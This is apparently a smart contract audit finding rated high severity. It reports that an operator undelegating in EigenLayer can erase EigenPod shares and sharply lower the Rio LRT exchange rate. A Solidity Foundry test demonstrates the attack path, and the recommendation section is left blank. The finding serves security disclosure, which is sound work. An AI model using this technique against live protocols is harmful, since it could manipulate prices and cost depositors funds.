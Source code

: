 Obedient Carbon Leopard

high

# Malicious operators can `undelegate` theirselves to manipulate the LRT exchange rate

## Summary
If a malicious operator undelegates itself in EigenLayer delegation manager contract, the exchange rate of LRT can significantly decrease, and ETH/LST can become stuck, unable to be claimed by the Rio Delegator Approver contract.
## Vulnerability Detail
Operators' delegator contracts delegate their balance to the operators. Operators can "undelegate" themselves from any delegation forwarded to them by triggering this function:
[DelegationManager.sol#L211-L258](https://github.com/Layr-Labs/eigenlayer-contracts/blob/6de01c6c16d6df44af15f0b06809dc160eac0ebf/src/contracts/core/DelegationManager.sol#L211-L258).

If the operator `undelegate` the delegator approver, then according to the strategy, there can be two things that happen:

1- Strategy shares:
When the operator undelegates, the strategy shares delegated to the operator will be queued for withdrawal to the stakee address. In this case, the `staker` is the RIO operator delegator contract, which has no implementation to withdraw the queued withdrawal request since the withdrawer must be the "msg.sender." Therefore, the operator delegator must implement that functionality in such cases. The only downside to this is that the accounting of strategy shares to operators is tracked internally and not relied upon the StrategyManager's actual shares in the EigenLayer contract.

2- EigenPod shares:
When EigenPod shares are `undelegate`, the EigenPod shares are removed. Unlike the strategy shares, the EigenPod shares are used to account for how much ETH is held by each operator. If an operator `undelegate`, then the entire EigenPod balance will be "0," and the RIO contracts are not prepared for this. This will erase a large amount of ETH TVL held by the Beacon Chain strategy, hence the LRT token exchange rate will change dramatically. Also, as with the above strategy shares issue, the `staker` is the operator delegator; hence, the operator delegator must implement the withdrawal functionality to be able to withdraw the ETH balance from the EigenPod.
## Impact
High because of the "EigenPod shares" issue can unexpectedly decrease the TVL, leading to a decrease in the LRT exchange rate without warning which would affect the deposits/withdrawals of the LRT in different assets aswell. 

**Coded PoC:**
```solidity
// forge test --match-contract RioLRTOperatorRegistryTest --match-test test_UndelegateRemovesEigenPodShares -vv
    function test_UndelegateRemovesEigenPodShares() public {
        uint8 operatorId =
            addOperatorDelegator(reETH.operatorRegistry, address(reETH.rewardDistributor), emptyStrategyShareCaps, 10);
        
        // @review make a deposit
        reETH.coordinator.depositETH{value: 32 * 5 ether}();

        // Push funds into EigenLayer.
        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS);

        // Verify validator withdrawal credentials.
        uint40[] memory validatorIndices = verifyCredentialsForValidators(reETH.operatorRegistry, operatorId, 5);

        // @review get the addresses 
        address operatorDelegator = reETH.operatorRegistry.getOperatorDetails(operatorId).delegator;
        RioLRTOperatorDelegator delegatorContract = RioLRTOperatorDelegator(payable(operatorDelegator));

        // @review all ether is in eigen pod shares 
        assertEq(uint256(delegatorContract.getEigenPodShares()), 32 * 5 * 1e18);
        // @review the TVL is the 32*5 ether and the initial deposit
        assertEq(reETH.assetRegistry.getTVLForAsset(ETH_ADDRESS), 160010000000000000000);

        // @review undelegate from the operator 
        vm.prank(address(uint160(0 + 1)));
        delegationManager.undelegate(operatorDelegator);

        // @review eigenpod shares are removed fully
        assertEq(uint256(delegatorContract.getEigenPodShares()), 0);
        // @review the TVL is only the initial deposit
        assertEq(reETH.assetRegistry.getTVLForAsset(ETH_ADDRESS), 10000000000000000);
    }
```
## Code Snippet
https://github.com/Layr-Labs/eigenlayer-contracts/blob/6de01c6c16d6df44af15f0b06809dc160eac0ebf/src/contracts/core/DelegationManager.sol#L211-L258

## Tool used

Manual Review

## Recommendation
